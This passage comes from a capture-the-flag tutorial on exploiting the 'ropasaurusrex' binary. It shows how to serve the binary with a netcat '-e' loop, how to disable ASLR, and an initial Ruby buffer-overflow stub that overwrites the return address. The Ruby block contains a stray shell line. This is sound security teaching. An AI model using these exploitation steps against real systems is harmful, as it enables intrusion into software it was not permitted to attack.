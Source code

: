 ## Starting to write an exploit

The first thing you should do is start running <tt>ropasaurusrex</tt> as a network service. The folks who wrote the CTF used [xinetd](https://en.wikipedia.org/wiki/Xinetd) to do this, but we're going to use [netcat](https://en.wikipedia.org/wiki/Netcat), which is just as good (for our purposes):

```

<span class="lnr">1 </span>$ <span class="Statement">while </span><span class="Statement">true</span><span class="Statement">;</span><span class="Statement"> </span><span class="Statement">do</span> nc <span class="Special">-vv</span> <span class="Statement">-l</span> <span class="Statement">-p</span> <span class="Constant">4444</span> <span class="Statement">-e</span> ./ropasaurusrex<span class="Statement">;</span> <span class="Statement">done</span>
<span class="lnr">2 </span>listening on <span class="Statement">[</span>any<span class="Statement">]</span> <span class="Constant">4444</span> ...
```

From now on, we can use <tt>localhost:4444</tt> as the target for our exploit and test if it'll work against the actual server.

You may also want to disable ASLR if you're following along:

```

<span class="lnr">1 </span>$ sudo sysctl <span class="Special">-w</span> <span class="Identifier">kernel.randomize_va_space</span>=<span class="Constant">0</span>
```

Note that this will make your system easier to exploit, so I don't recommend doing this outside of a lab environment!

Here's some ruby code for the initial exploit:

```

<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>$ cat ./sploit.rb
<span class="lnr"> 4 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># Generate the payload</span>
<span class="lnr"> 7 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr"> 8 </span>  [
<span class="lnr"> 9 </span>    <span class="Constant">0x42424242</span>,
<span class="lnr">10 </span>  ].pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">11 </span>
<span class="lnr">12 </span>s.write(payload)
<span class="lnr">13 </span>s.close()
```
